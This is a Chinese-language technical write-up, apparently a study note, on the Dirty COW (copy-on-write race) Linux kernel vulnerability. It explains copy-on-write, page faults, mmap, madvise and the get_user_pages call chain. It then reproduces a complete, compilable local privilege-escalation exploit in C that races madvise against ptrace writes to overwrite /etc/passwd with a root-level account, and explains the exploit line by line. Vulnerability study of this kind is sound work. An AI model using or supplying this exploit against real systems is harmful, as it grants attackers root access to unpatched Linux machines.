


# Dirty Cow

**复现环境：** Ubuntu 14.04.4 desktop amd64

**成功截图：**


**原理分析：**

写时复制：如果有两个进程都映射了一个私有区域，在没有进程对他写的情况下，和共享区域一样在物理内存中也是指向同一个地方，但是如果有进程对私有区域执行了写操作，就会触发一个保护故障，调用故障处理程序，那么就会在物理内存中为写操作的进程复制一个新的副本，更新页表条目指向这个新的副本，然后恢复这个页面的可写权限，然后当故障处理程序返回时，CPU 重新执行这个写操作，现在在新创建的页面上这个写操作就可以正常执行了，这里直接用csapp上的图了，csapp上面的图很容易理解，如下图所示



**Page Fault：**

产生页访问异常的原因主要有：

- 目标页帧不存在（页表项全为0，即该线性地址与物理地址尚未建立映射或者已经撤销)
- 相应的物理页帧不在内存中（页表项非空，但Present标志位=0，比如在swap分区或磁盘文件上)
- 不满足访问权限(此时页表项P标志=1，但低权限的程序试图访问高权限的地址空间，或者有程序试图写只读页面)

如果是缺页引起的错误，再去看引起错误的线性地址是否是合法地址，因为有请求调页和写时复制的机制，我们请求的页最开始是假定不会使用的，因此给的都是`零页`，即全部填充为0的页，并且这个零页不需要我们分配并填充，可以直接给一个现成的并且设置为不可写。当第一次访问这个页的时候会触发缺页中断，进而激活写时复制。下面这个是《深入理解Linux内核》中的图片



**主要涉及的函数：**

`void *mmap(void *addr, size_t length, int prot, int flags,int fd, off_t offset);`

函数的作用是分配一块内存区，可以用参数指定起始地址，内存大小，权限等。我们平时做题一般用不到flags这个参数，它的作用如下(参考manual手册),其中`MAP_PRIVATE`这个标志位被设置时会触发COW(其作用就是建立一个写入时拷贝的私有映射，内存区域的写入不会影响原文件，因此如果有别的进程在用这个文件，本进程在内存区域的改变只会影响COW的那个页而不影响这个文件)。

```
The flags argument determines whether updates to the mapping are
       visible to other processes mapping the same region, and whether
       updates are carried through to the underlying file.  This behavior is
       determined by including exactly one of the following values in flags:


MAP_PRIVATE
              Create a private copy-on-write mapping.  Updates to the
              mapping are not visible to other processes mapping the same
              file, and are not carried through to the underlying file.  It
              is unspecified whether changes made to the file after the
              mmap() call are visible in the mapped region.
```

flags这个参数确定新创建的内存是否对映射到同一区域的进程可见，并且是否更新底层的文件，这个行为是通过下面的flags值来决定的，MAP_PRIVATE建立一个写入时拷贝的私有映射，内存区域的写入不会影响原文件，因此如果有别的进程在用这个文件，本进程在内存区域的改变只会影响COW的那个页而不影响这个文件

`int madvise(void *addr, size_t length, int advice);`

这个函数的作用是告诉内核`addr,addr+len`这段区域的映射的内存或者共享内存的使用情况，方便内核以合适方式对其处理，`MADV_DONTNEED`这个表示接下来不再使用这块内存区域，内核可以释放它。

```
Conventional advice values
       The advice values listed below allow an application to tell the
       kernel how it expects to use some mapped or shared memory areas, so
       that the kernel can choose appropriate read-ahead and caching
       techniques.  These advice values do not influence the semantics of
       the application (except in the case of MADV_DONTNEED), but may
       influence its performance.  All of the advice values listed here have
       analogs in the POSIX-specified posix_madvise(3) function, and the
       values have the same meanings, with the exception of MADV_DONTNEED.

MADV_DONTNEED
              Do not expect access in the near future.  (For the time being,
              the application is finished with the given range, so the
              kernel can free resources associated with it.)

              After a successful MADV_DONTNEED operation, the semantics of
              memory access in the specified region are changed: subsequent
              accesses of pages in the range will succeed, but will result
              in either repopulating the memory contents from the up-to-date
              contents of the underlying mapped file (for shared file
              mappings, shared anonymous mappings, and shmem-based
              techniques such as System V shared memory segments) or zero-
              fill-on-demand pages for anonymous private mappings.

              Note that, when applied to shared mappings, MADV_DONTNEED
              might not lead to immediate freeing of the pages in the range.
              The kernel is free to delay freeing the pages until an
              appropriate moment.  The resident set size (RSS) of the
              calling process will be immediately reduced however.

              MADV_DONTNEED cannot be applied to locked pages, Huge TLB
              pages, or VM_PFNMAP pages.  (Pages marked with the kernel-
              internal VM_PFNMAP flag are special memory areas that are not
              managed by the virtual memory subsystem.  Such pages are
              typically created by device drivers that map the pages into
              user space.)
```

常规情况下advice的值，下面列出的advice的值允许引用程序来告诉内核如何去使用映射或者共享内存，所以内核可以选择合适的预读和缓存技术，这些advice的值不影响程序的语义（除非advice是MADV_DONTNEED这种情况），但是可能影响他的性能，这里列出的所有advice值在POSIX-specified posix_madvise(3)函数中都有类似物，并且这些值具有相同含义除了MADV_DONTNEED

MADV_DONTNEED，不期望在不旧的将来访问（在开始应用程序已经在给定的范围内完成，所以内核可以释放与其相关联的资源），在一次MADV_DONTNEED操作之后，在特定区域内存访问的语义已经发生了改变：随后在范围内的页访问会成功，但是将会导致在底层的mapped文件重新填充内存的内容为最新的内容（对于共享文件映射来说，共享匿名映射，和基于shmem的技术，例如System V共享内存段）或者在共享匿名映射中把页内容全部填充为0

注意，当应用了共享映射，MADV_DONTNEED可能不会让范围内的页及时释放掉，内核会延迟到一个适合的时刻去释放这个页，RSS所有的进程都会减少

MADV_DONTNEED不能被应用去锁定的页，大的TLB页，或者VM_PFNMAP页（内核内部页会被标记上VM_PFNMAP是一个特殊的内存区域，它不能被虚拟内存管理，此类页面通常是由将页面映射到用户空间的设备驱动程序创建的。）

`dirty bit`

脏位，设置了脏位也就代表这个页被修改过，这个标志的作用是提醒CPU内存的内容已经被修改了但是还没有被写入到磁盘保存

**漏洞触发原理：**

函数的调用链过于复杂，先大致了解一下漏洞的触发原理。

我们的目的是修改一个只读文件，这样就可以修改一些只有root可写的特权文件比如`/etc/passwd`。

漏洞产生的场景如下。我们使用write系统调用向`/proc/self/mem`这个文件写入内容，内核会调用`get_user_pages`函数，这个函数的作用是根据虚拟内存地址寻找对应的页物理地址。函数内部调用follow_page_mask来寻找页描述符，`follow_page_mask - look up a page descriptor from a user-virtual address`。

第一次获取页表项会因为缺页失败(请求调度的机制)。`get_user_pages`会调用`faultin_page`以及`handle_mm_fault`来获取一个页框并将映射放到页表中。继续第二次的`follow_page_mask`获取页表符，因为获取到的页表项指向的是一个只读的映射，所以这次获取也会失败。get_user_pages第三次调用follow_page_mask的时候不再要求页表项指向的内存映射有可写权限，因此可以成功获取，获取之后就可以对只读内存进行强制写入操作。

> 上述实现是没有问题的，对/proc/self/mem的写入本来就是无视权限的。在写入操作中：
> 如果虚拟内存是VM_SHARE的映射，那么mmap能够映射成功(注意映射有写权限)的条件就是进程对该文件有可写权限，因此写入不算越权
> 如果虚拟内存是VM_PRIVATE的映射，那么会COW创建一个可写副本进行写入操作，所有的update不会更新到原文件中。

但是在上述第二次失败之后如果我们用一个线程调用madvise(addr,len,MADV_DONTNEED),其中addr-addr+len是一个只读文件的VM_PRIVATE的只读内存映射，那映射的页表项就会变为空。这时候如果第三次调用follow_page_mask来获取页表项，就不会用之前COW的页框了(页表项为空了)，而是直接去找原来只读的那个内存页，现在又不要求可写，因此不会再COW，直接写这个物理页就会导致修改了只读文件。

**漏洞函数基本调用链：**

**第一次**去请求调页发现`pte`表项为空，因此调用`do_fault`这个函数去处理各种缺页的情况，因为我们请求的页是只读的，我们希望可以写入这个页，因此会走`do_cow_fault`来用COW创建一个新的page同时设置内存->页框映射，更新页表上的`pte`。在`set_pte`函数中设置页表项，将pte entry设置为`dirty/present/read`，返回0之后retry调页。

```
faultin_page
  handle_mm_fault
    __handle_mm_fault
      handle_pte_fault
        do_fault <- pte is not present
      do_cow_fault <- FAULT_FLAG_WRITE
        alloc_set_pte
          maybe_mkwrite(pte_mkdirty(entry), vma) <- mark the page dirty
                                                        but keep it RO 
# Returns with 0 and retry
follow_page_mask
  follow_page_pte
    (flags & FOLL_WRITE) && !pte_write(pte) <- retry fault
```

**第二次**的缺页处理到pte检查这里顺利通过，之后检查`FAULE_FLAG_WRITE`和`pte_write`，确定我们是否要写入该页以及该页是否有可写属性，进`do_wp_page`函数走写时复制的处理(注意开始第一次是页表项未建立的写时复制，这是pte enrty已经建立好了的写时复制)。经过检查发现已经进行过写时复制了(当时COW完毕后只是设置了dirty并未设置页可写，因此还会有个判断)。这里发现`CoWed`就去reuse这个page(检查里还包括对于页引用计数器的检查，如果count为1，表示只有自己这个进程使用，这种情况下就可以直接使用这个页)。在最后的ret返回值为`VM_FAULT_WRITE`，这个位标志着我们已经跳出了COW，因此会清空`FOLL_WRITE`位，这个位的含义是我们希望对页进行写，自此我们就可以当成对这个页的只读请求了。返回0之后retry继续调页。

```
faultin_page
  handle_mm_fault
    __handle_mm_fault
      handle_pte_fault
        FAULT_FLAG_WRITE && !pte_write
      do_wp_page
        PageAnon() <- this is CoWed page already
        reuse_swap_page <- page is exclusively ours
        wp_page_reuse
          maybe_mkwrite <- dirty but RO again
          ret = VM_FAULT_WRITE
((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE)) <- we drop FOLL_WRITE

# Returns with 0 and retry as a read fault
```

此时一个新的thread调用madvise从而使得页表项的映射关系被解除，页表对应位置置为NULL。

**在第三次**调页中因页表项为空而失败，然后继续缺页异常处理，发现pte为空，而此时`FAULT_FLAG_WRITE`位已经不置位了，因为我们不要求具有可写权限，因此直接调用`do_read_fault`，这是负责处理只读页请求的函数，在这个函数中由`__do_fault`将文件内容拷贝到`fault_page`并返回给用户。如此，我们就可以对一个只读的特权文件进行写操作。

综上所述，这里的核心是用madvise解除页表项的内存映射并将表项清空，在COW机制清除`FOLL_WRITE`标志位之后不再去写COW的私有页而是寻得原始文件映射页，并可对其写入。

```
cond_resched -> different thread will now unmap via madvise
follow_page_mask
  !pte_present && pte_none
faultin_page
  handle_mm_fault
    __handle_mm_fault
      handle_pte_fault
        do_fault <- pte is not present
      do_read_fault <- this is a read fault and we will get pagecache
               page!
```

**exp分析：**

exp的核心部分很短，前面是备份`/etc/passwd`和生成新root密码的操作，f为文件指针，用mmap映射出一块`MAP_PRIVATE`的内存，fork起一个子进程，在父进程中使用ptrace(`PTRACE_POKETEXT`标志的作用是把complete_passwd_line拷贝到map指向的内存空间)不断去修改这块只读内存。在子进程中起线程循环调用`madviseThread`子线程来解除内存映射和页表映射。

最终在某一时刻，即第二次缺页异常处理完成时madvise调用，我们写入原文件映射的页框而非COW的页从而成功修改了`/etc/passwd`的内存并在页框更新到磁盘文件时候成功修改密码文件。

```
//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
```

现再来仔细的分析一下exp

1. 123-127行，这几行是备份一下/etc/passwd文件
2. 129-136行，是设置要修改的用户信息
3. 138-145行，是获取要修改的用户的密码
4. 147-149行，是把用户密码进行了hash加密
5. 151-159行，映射出一块`MAP_PRIVATE`的内存
6. 161-175行，父进程调用ptrace(`PTRACE_POKETEXT`标志的作用是把complete_passwd_line拷贝到map指向的内存空间)不断去修改这块只读内存。也就是父进程一直尝试把用户信息写到/etc/passwd但是由于是只读的所以会触发cow
7. 177-185行，子进程中起线程循环调用`madviseThread`子线程来解除内存映射和页表映射
8. 187-192行，代表/etc/passwd被修改了

这里也属于一个条件竞争，也就是由于父进程和子进程是并发执行的，然后这两个循环都循环执行了很多次，所以就会导致父进程和子进程竞争从而导致在cow机制第二次触发异常之后，`madviseThread`可以成功的释放掉页表项，从而导致我们可以以之前分析的第三次触发异常把内容写到只读文件中